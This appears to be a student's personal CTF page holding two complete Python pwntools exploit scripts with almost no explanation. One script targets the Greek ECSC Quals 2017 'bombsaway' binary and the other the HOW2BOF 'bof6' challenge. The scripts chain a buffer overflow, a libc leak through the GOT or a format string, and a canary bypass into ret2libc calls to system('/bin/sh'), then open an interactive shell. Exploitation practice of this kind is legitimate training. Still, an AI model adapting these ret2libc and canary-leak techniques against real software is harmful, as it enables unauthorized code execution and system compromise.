## Welcome to Fuzzer's Palace

### Greek ECSC QUALS 2017-Pwn Challenge
```python
from pwn import *
from struct import pack, unpack


def pwn():
    p = lambda x : pack("I",x)
    r = process('./bombsaway')
    print r.recv()
    r.sendline('test')
    print r.recv()
    r.sendline('2')
    print r.recv()
    payload = 'A'*556
    payload += p32(0x080483b0) # plt of write
    payload += p32(0x08048400) # ret
    payload += p32(0x1)
    payload += p32(0x080f700c) # read in got
    payload += p32(0x4) #leak

    r.sendline(payload)
    rec = r.recvuntil('Password:')
    print rec
    i = 40
    rec = rec[i:i+4]
    read_libc = unpack('I', rec)[0]
    print '[+] Libc addr of read: '+hex(read_libc)
    libc_base = read_libc-0x0e5620
    print '[+] Libc base: '+hex(libc_base)
    sys = p(libc_base+0x03cd10)
    lol = p(libc_base+0x123456)
    binsh = p(libc_base+0x17b8cf)
    r.sendline('test')
    r.recvuntil('Option:')
    r.sendline('2')
    r.recvuntil(':')
    fpayload = 'A'*544
    fpayload += sys
    fpayload += lol
    fpayload += binsh
    r.sendline(fpayload)
    r.interactive()

pwn()
```

### HOW2BOF-Bof6 Challenge
```python
from pwn import *

def pwn():
        sys_off = 0x03ada0
        exit_off = 0x02e9d0
        bin_sh_off = 0x15ba0b
        p = lambda x : (x[2:].decode('hex'))[::-1]
        r = process('./bof6')
        r.recvuntil('Name: ')
        r.sendline('%x '*18)
        a = r.recvuntil(':')
        print a
        canary = hex(int(a[57:65], 16))
        libc=int(a[95:103],16)-1777664
        print "[+] Here is your cookie motherfucker: "+str(canary)
        print "[+] Libc base address SKIDO: "+hex(libc)
        payload = ""
        payload += "A"*64
        payload += p(canary)
        payload += "B"*12
        payload += p(hex(libc+sys_off))
        payload += p(hex(libc+exit_off))
        payload += p(hex(libc+bin_sh_off))
        r.sendline(payload)
        r.interactive()

pwn()
```

For more ***pwn*** writeups see [here](https://www.github.com/fuzz3rctf/pwnz).
For ***reversing*** writeups see [here](https://www.github.com/fuzz3rctf/reversing)

### ~$ WHOAMI
1. I am a Greek high school student. 
2. I love Binary Reverse Engineering and Exploitation!


### Support or Contact

[Twitter](https://www.twitter.com/proud_skid/) 
